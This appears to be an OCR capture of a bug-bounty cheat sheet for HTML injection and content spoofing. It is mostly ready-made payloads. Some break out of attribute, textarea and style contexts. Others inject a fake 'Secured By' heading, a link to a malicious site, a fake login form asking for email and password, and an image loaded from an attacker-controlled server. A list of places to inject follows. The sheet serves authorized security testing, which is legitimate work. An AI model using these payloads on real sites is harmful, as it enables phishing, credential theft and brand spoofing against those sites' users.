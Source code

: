 Visual: Extra line breaks / vertical spacing
```
<br><br><br>
```
## Breaking Out of HTML Attribute Context

Closes attribute and tag, injects heading
```
"><h1>SynackSRT</h1>
```

Closes attribute and tag, injects plain text
```
'>"SynackSRT
```

Break out of textarea
```
'><textarea><p>SynackSRT</p>'
```

Break out of style tags
```
'></style><p>SynackSRT</p>'
```

Technique
- Append `">` or `'>` at the beginning of your spoofing payloads
## Content Spoofing Examples

* `<h1><b>SECURED By [TARGET NAME]</b></h1>` - *(Fake "Secured By" heading - adapt "[TARGET NAME]" dynamically)*

* `<h2>Fake Important Notice!</h2><p>This is a spoofed message.</p>` - *(Fake notice with heading and paragraph)* 

* `<a href="https://malicious.example.com">Click here for a prize!</a>` - *(Spoofed link to a malicious site - **use with extreme caution & only on test systems!** For bug bounty, focus on demonstrating the *possibility* without actually clicking or causing harm)* 

* `"><input type="text" placeholder="Email"><br><input type="password" placeholder="Password"><br><input type="submit" value="Login">` - *(Fake Login Form - adapted from Synack example, good for demonstrating phishing potential)* 

* `"><img src="https://[attacker-controlled-server]/spoofed-image.png" style="width:300px;height:100px;">` - *(Spoofed image - host image on your own server for testing, or use a safe placeholder image URL. Useful for brand spoofing or replacing legitimate images)*
## Test in Different Locations

**(Remind yourself to systematically test these locations with the above payloads):* 
* URL Parameters 
* URL Path Segments 
* URLs Embedded in HTML attributes 
* Search Forms 
* Error Messages 
* User-Generated Content areas
## Encoding Considerations

